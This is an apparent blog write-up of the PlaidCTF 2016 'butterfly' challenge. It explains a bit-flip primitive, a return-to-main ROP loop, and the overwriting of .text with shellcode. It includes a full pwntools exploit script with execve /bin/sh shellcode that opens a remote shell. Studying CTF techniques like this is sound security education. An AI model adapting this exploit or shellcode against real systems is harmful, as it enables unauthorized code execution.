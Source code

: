 ```yaml
---
layout: post
alias: "/blog/2016/04/18/plaidctf-2016-butterfly/"
title: "PlaidCTF 2016 butterfly"
date: 2016-04-18T06:00:01+09:00
tags: [ "ctf", "pwn", "writeup", "plaidctf", "mprotect" ]
---
```


I like this problem, but this is a little easy.

## problem

``` sh
$ file butterfly
butterfly: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=daad8fa88bfeef757675864191b0b162f8977515, not stripped
```

``` sh
$ nc butterfly.pwning.xxx 9999
THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?
33554432
WAS IT WORTH IT???
```

The program `fgets` a integer $p$ using `strtol`, then flips the $(p \bmod 8)$-th bit of the address $\lfloor p / 8 \rfloor$.
The flipping is under `mprotect`, so you can flip even the `.text` section.

## solution

At first, we can flip arbitrary $1$-bit.
To enable to flip many bits, the first flipping is this:

``` asm
from:
  400860:	48 83 c4 48          	add    rsp,0x48
to:
  400860:	48 83 c4 08          	add    rsp,0x8
```

This is an instruction to return from the `main`, so this let us ROP, and now we can flip as many bits as we like.

Next, send a shellcode onto `.text` section, using flipping.
I wrote it here, and jump by making an error.

``` asm
  40086b:	bf 42 09 40 00       	mov    edi,0x400942 # "mprotect1"
  400870:	e8 fb fd ff ff       	call   400670 <perror@plt>
  ...
```

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host')
parser.add_argument('port', type=int)
args = parser.parse_args()
context.log_level = 'debug'

p = remote(args.host, args.port)

main = 0x400788
def thy_cosmic_ray(ptr):
    p.recvline()
    payload = ''
    payload += str(ptr)
    payload += ' ' * (8 - len(payload))
    payload += 'BBBBBBBB' # rbx
    payload += 'CCCCCCCC' # r14
    payload += 'DDDDDDDD' # r15
    payload += 'EEEEEEEE' # rbp
    payload += p64(main)
    payload += '\n'
    log.info(repr(payload))
    p.send(payload)
    p.recvline()

thy_cosmic_ray(0x400863 * 8 + 6) # make `add rsp, 0x48' to `add rsp, 0x8'

# http://shell-storm.org/shellcode/files/shellcode-806.php
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

addr = 0x40086b
text = "\xbf\x42\x09\x40\x00\xe8\xfb\xfd\xff\xff\xeb\xd6\xbf\x4c\x09\x40\x00\xe8\xef\xfd\xff\xff\xeb\xca\xe8\x88\xfd\xff\xff\x0f\x1f\x84\x00\x00\x00\x00\x00"

for (i, (frm, to)) in enumerate(zip(text, shellcode)):
    for j in range(8):
        if (ord(frm) ^ ord(to)) & (1 << j):
            thy_cosmic_ray((addr + i) * 8 + j)

p.recvline()
p.sendline('foo') # jump to perror

time.sleep(1)
p.sendline('id')
p.interactive()
```
